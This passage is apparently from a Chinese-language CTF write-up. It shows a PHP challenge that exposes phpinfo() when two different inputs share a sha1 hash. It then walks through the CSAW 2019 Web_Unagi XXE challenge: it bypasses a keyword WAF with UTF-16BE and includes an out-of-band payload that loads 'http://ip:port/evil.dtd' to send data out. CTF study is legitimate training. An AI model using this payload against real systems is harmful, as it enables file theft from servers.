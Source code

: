 ```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){
        show_source(__FILE__);
    }
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }
}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211101848060.png)

## [CSAWQual 2019]Web_Unagi

常规 xxe, 存在 waf, 过滤了 ENTITY SYSTEM file 等关键词

参考文章 [https://xz.aliyun.com/t/4059](https://xz.aliyun.com/t/4059)

这里利用 utf-16be 绕过

打了之后发现回显位置有长度限制, 于是改成远程回显

payload 如下

```xml
?>
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://ip:port/evil.dtd">
%remote;%int;%send;
]>
<users>
<user>
<username>alice</username>
<password>passwd1</password>
<name>alice</name>
<email>alice@fakesite.com</email>
<group>CSAW2019</group>
</user>
<user>
<username>bob</username>
<password>passwd2</password>
<name> Bob</name>
<email>bob@fakesite.com</email>
<group>CSAW2019</group>
</user>
</users>

```

